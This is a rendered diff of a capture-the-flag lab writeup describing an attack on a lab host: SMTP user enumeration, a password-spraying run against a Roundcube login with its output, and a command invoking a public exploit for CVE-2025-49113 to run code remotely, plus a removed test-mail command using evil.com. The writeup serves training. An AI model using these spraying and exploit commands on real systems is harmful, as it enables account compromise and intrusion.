

Before and after one commit to donmedfor/mybitbyte, a Markdown page: writeups/aftermatch/aftermatch.md, 2 parts joined by grey strips. Shown at 90% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/writeups/aftermatch/aftermatch.md
+++ b/writeups/aftermatch/aftermatch.md
@@ -1,6 +1,9 @@
 # HackSmarter — Aftermath Writeup
 
 **Target:** `10.1.32.43`
+
 **Attacker:** `10.200.94.4` (Parrot OS)
-**Difficulty:** Medium
+
+**Difficulty:** Easy
+
 **Chain:** SMTP Enum → Roundcube RCE (CVE-2025-49113) → `www-data` → `apt-get` privesc → root
@@ -98,35 +146,48 @@ maria  exists
 
 Two users recovered: **`kali`** and **`maria`**.
 
-### 2.3 Mail Delivery Confirmation
+### 2.3 Login to RoundCube Portals
 
-Confirming `kali@kali` is a real mailbox (not just a VRFY-passing alias):
-
-```bash
-swaks --server 10.1.32.43 --from attacker@evil.com --to kali@kali \
-  --header "Subject: test" --body "hello"
-```
+Confirming `maria:$PASSWORD` is a real valid mailbox account using a script to do password sprying `https://github.com/robotshell/cubeSpraying`:
 
 ```
-<-  250 2.1.5 Ok
-<-  354 End data with <CR><LF>.<CR><LF>
-<-  250 2.0.0 Ok: queued as 51DBC8002F
+┌─[donmed@parrot]─[~/LAB/Hacksmarter/Aftermath/cubeSpraying]─[10.200.94.4]
+└──╼ $ python3 cubeSpraying.py -u http://10.1.32.43/roundcube/ -U maria -P ../passwords.txt  -v
+Trying maria:123456 - HTTP Status Code: 401
+Trying maria:12345678 - HTTP Status Code: 401
+Trying maria:qwerty - HTTP Status Code: 401
+Trying maria:abc123 - HTTP Status Code: 401
+Trying maria:monkey965 - HTTP Status Code: 401
+Trying maria:1234567 - HTTP Status Code: 401
+Timeout while trying to log in for maria.
+Trying maria:trustno1 - HTTP Status Code: 401
+Trying maria:dragonbALL - HTTP Status Code: 401
+Trying maria:12345 - HTTP Status Code: 401
+Timeout while trying to log in for maria.
+Trying maria:Admninistrator - HTTP Status Code: 401
+Trying maria:love123 - HTTP Status Code: 401
+Trying maria:hello - HTTP Status Code: 401
+Timeout while trying to log in for maria.
+Trying maria:Summer - HTTP Status Code: 401
+Trying maria:flower - HTTP Status Code: 401
+Trying maria:1qaz2wsx - HTTP Status Code: 302
+*************************************************
+[SUCCESS] Valid credentials found: maria:$PASSWORD
+*************************************************
+
+
 ```
-
-Mail delivery works without authentication — but with no relay and no way to read the spool yet, this becomes a clue rather than a primitive.
 
 ---
 
 ## 🌐 3. Roundcube — CVE-2025-49113 (Authenticated RCE)
 
 ### 3.1 Discovery
+using this credentials to authenticate to `http://10.1.32.43/roundcube`.
+allows us to discover the version of Roundcube,
 
-```bash
-curl -sk http://10.1.32.43/roundcube/ | grep -i roundcube
-nmap -p 80,443 -sV 10.1.32.43
-```
+<img width="900" height="486" alt="image" src="https://github.com/user-attachments/assets/f452cdc5-3eae-485f-ac6f-6b40eb4787c2" />
 
-Roundcube is exposed at `http://10.1.32.43/roundcube`.
 
 ### 3.2 Vulnerability
 
@@ -134,21 +195,20 @@ Roundcube is exposed at `http://10.1.32.43/roundcube`.
 
 **Affected versions:** 1.5.x < 1.5.10, 1.6.x < 1.6.11.
 
-Version confirmed in the page source:
+Version confirmed in the Roundcube about page:
 
-```html
-"rcversion":10605
 ```
+Roundcube Webmail 1.5.9
 
-`10605` = 1.6.5 → vulnerable.
+```
 
 ### 3.3 Credential Source
 
-The credentials for Roundcube come from the mail side — one of the enumerated users (`kali` or `maria`) with a password recovered from the SMTP enumeration stage.
+The credentials for Roundcube come from the mail side — one of the enumerated users `maria` with a password recovered from the SMTP enumeration stage.
 
-### 3.4 Exploit
+### 3.4 Exploit `https://github.com/Zwique/CVE-2025-49113`
 
-```bash
+```
 python3 CVE-2025-49113.py http://10.1.32.43/roundcube kali '<password>' 'id'
 ```
 
````
Also changed, not shown: other parts of writeups/aftermatch/aftermatch.md (+89 -24 lines).
